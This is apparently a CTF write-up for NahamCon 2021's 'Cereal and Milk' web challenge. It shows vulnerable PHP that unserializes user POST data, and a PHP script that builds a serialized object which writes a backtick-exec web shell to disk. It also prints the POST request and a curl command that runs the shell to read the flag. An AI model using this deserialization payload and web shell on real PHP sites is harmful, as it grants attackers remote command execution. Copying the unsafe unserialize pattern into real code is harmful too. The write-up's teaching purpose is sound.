 ```yaml
---
title: "NahamCon2021 CTF - Cereal and Milk"
date: 2021-03-15T10:42:54+02:00
categories:
- writeup
- ctf
- nahamcon
- nahamcon2021
- 2021
---
```


## category

web - medium

## solution

The challenge URL drops us on a page where we can submit cereals.

{{< figure src="/images/nahamcon/cereal_and_milk.png" >}}

We are also given two files to download, `index.php` & `log.php`. I quickly spotted an unsafe deserialisation bug in the provided files. The cleaned up and relevant PHP code from both files were:

`index.php`

```php
<?php

include 'log.php';

class CerealAndMilk
{
    public $logs = "request-logs.txt";
    public $request = '';
    public $cereal = 'Captain Crunch';
    public $milk = '';


    public function processed_data($output)
    {
        echo "Deserilized data:<br> Coming soon.";
        echo print_r($output);

    }

    public function cereal_and_milk()
    {
     echo $this->cereal . " is the best cereal btw.";
    }

}

$input = $_POST['serdata'];
$output = unserialize($input);

$app = new CerealAndMilk;
$app -> cereal_and_milk($output);
$app -> processed_data($output);

?>
```

`log.php`

```php
<?php

class log
{
    public function __destruct()
        {
            $request_log = fopen($this->logs , "a");
            fwrite($request_log, $this->request);
            fwrite($request_log, "\r\n");
            fclose($request_log);
        }
}

?>
```

The `index.php` file had a line that effectively does `unserialize($_POST['serdata'];)` on user input. The `log.php` file had a class, `log()` that had a `__destruct()` method, writing contents (`$this->request`) to a file (`$this->logs`). Both the `logs` and `request` properties can be controlled with an arbitrary serialized string.

All we needed was a malicious serialized string which we can easily generate by constructing a new `log()` class, setting properties and calling `serialize()` on it.

```php
class log
{

    public function __construct()
    {
        $this->logs = "poo.php";
        $this->request = "<?=`\$_GET[0]`?>";
    }

    public function __destruct()
        {
            $request_log = fopen($this->logs , "a");
            fwrite($request_log, $this->request);
            fwrite($request_log, "\r\n");
            fclose($request_log);
        }
}

$l = new log();
$input = serialize($l);
echo $input . PHP_EOL;
```

This should output the following line we can use as input to the `serdata` POST parameter:

```text
O:3:"log":2:{s:4:"logs";s:7:"poo.php";s:7:"request";s:15:"<?=`$_GET[0]`?>";}
```

I could replicate this locally, but had trouble on the challenge service. I asked for some help from the folks over at [HackSouth](https://hacksouth.africa/), and after a bunch of debugging I realised their payloads used a `4` instead of the `2` for the number of properties in the class. I'm still confused by this. Anyways. The updated payload that wrote my shell was:

```text
O:3:"log":4:{s:4:"logs";s:7:"poo.php";s:7:"request";s:15:"<?=`$_GET[0]`?>";}
```

```tex
POST /index.php HTTP/1.1
Host: challenge.nahamcon.com:32469
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:87.0) Gecko/20100101 Firefox/87.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 84
Origin: http://challenge.nahamcon.com:32469
Connection: close
Referer: http://challenge.nahamcon.com:32469/index.php
Cookie: auth2=eyJpZCI6MX0.YEp7Wg.fHdsxIGEolHgYQD0d_cvExass8E; auth=eyJpZCI6MX0.YEp7Wg.fHdsxIGEolHgYQD0d_cvExass8E; 2passwordAuth=eyJpZCI6MX0.YE8cpg.H-KAOClMD0uq5M7ycSJMzLtOHoM
Upgrade-Insecure-Requests: 1

serdata=O:3:"log":4:{s:4:"logs";s:7:"poo.php";s:7:"request";s:15:"<?=`$_GET[0]`?>";}
```

Using the command exec I found the `ndwbr7pVKNCrhs-CerealnMilk/` folder that had the flag.

```bash
$ curl "http://challenge.nahamcon.com:32469/poo.php?0=cat%20ndwbr7pVKNCrhs-CerealnMilk/flag.txt"
flag{70385676892a2a813a666961ddd6f899}
```
